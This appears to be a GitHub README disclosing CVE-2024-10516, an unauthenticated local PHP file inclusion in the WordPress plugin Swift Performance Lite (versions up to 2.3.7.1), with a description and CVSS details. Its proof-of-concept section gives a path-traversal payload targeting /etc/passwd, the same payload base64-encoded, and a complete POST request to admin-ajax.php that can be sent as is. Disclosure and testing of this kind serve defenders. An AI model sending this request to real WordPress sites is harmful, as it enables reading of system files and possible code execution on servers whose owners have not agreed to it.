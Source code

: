 # CVE-2024-10516
Swift Performance Lite <= 2.3.7.1 - Unauthenticated Local PHP File Inclusion via 'ajaxify'

# Description

The Swift Performance Lite plugin for WordPress is vulnerable to Local PHP File Inclusion in all versions up to, and including, 2.3.7.1 via the 'ajaxify' function. This makes it possible for unauthenticated attackers to include and execute arbitrary files on the server, allowing the execution of any PHP code in those files. This can be used to bypass access controls, obtain sensitive data, or achieve code execution in cases where images and other “safe” file types can be uploaded and included.

## Details

- **Type**: plugin
- **Slug**: swift-performance-lite
- **Affected Version**: 2.3.7.1
- **CVSS Score**: 8.1
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2024-10516
- **Status**: Active

POC
---

Base64 Payload = `["template-part","null","../../../../../etc/passwd"]`

```
POST /wp-admin/admin-ajax.php HTTP/2
Host: wp-dev.ddev.site
Content-Type: application/x-www-form-urlencoded
Content-Length: 202

action=swift_performance_ajaxify&data=WyJ0ZW1wbGF0ZS1wYXJ0IiwibnVsbCIsIi4uLy4uLy4uLy4uLy4uL2V0Yy9wYXNzd2QiXQ==
```
